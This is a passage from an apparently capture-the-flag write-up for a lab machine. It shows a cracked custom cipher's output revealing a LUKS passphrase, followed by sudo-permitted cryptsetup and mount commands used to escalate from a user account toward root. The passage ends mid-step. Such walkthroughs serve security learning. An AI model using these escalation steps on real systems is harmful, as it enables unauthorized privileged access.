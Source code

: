 Now let's run it:

```
$ ruby bf.rb
Approximate key: ttttttttttttttttt
Partially decrypted text: ∩┐╜$7C∩┐╜∩┐╜q8∩┐╜∩┐╜4∩┐╜l'you liked my new encryption tool, pretty secure huh, anyway here is the key to the encrypted image from /var/backups/recovery: cB!6%sdH8Lj^@Y*$C2cf∩┐╜
```

The crypto part is not interesting me so I won't develop the explanation more
than that but you can take a look at [IppSec video](https://www.youtube.com/watch?v=alJa51XylDE)
to see the reasoning.

### Privilege Escalation : from pain to root

```
$ pain@forwardslash:~/encryptorinator$ file /var/backups/recovery/encrypted_backup.img
/var/backups/recovery/encrypted_backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: f2a0906a-c412-48db-8c18-3b72443c1bdf
```

Now it's pretty clear we have to mount the LUKS container with the password we
just found.

Let's see the commands we can run as root again:

```
pain@forwardslash:~/encryptorinator$ sudo -l
Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
```

First we open the LUKS container and create a mount point.

```
pain@forwardslash:~/encryptorinator$ sudo /sbin/cryptsetup luksOpen /var/backups/recovery/encrypted_backup.img backup
Enter passphrase for /var/backups/recovery/encrypted_backup.img: cB!6%sdH8Lj^@Y*$C2cf

pain@forwardslash:~/encryptorinator$ mkdir -p /tmp/cyfun2/mnt

pain@forwardslash:~/encryptorinator$ cd /tmp/cyfun2
```

Then we can mount the openned container:

```
pain@forwardslash:/tmp/cyfun2$ sudo /bin/mount /dev/mapper/backup ./mnt/
```

The mounted device contains only one file:
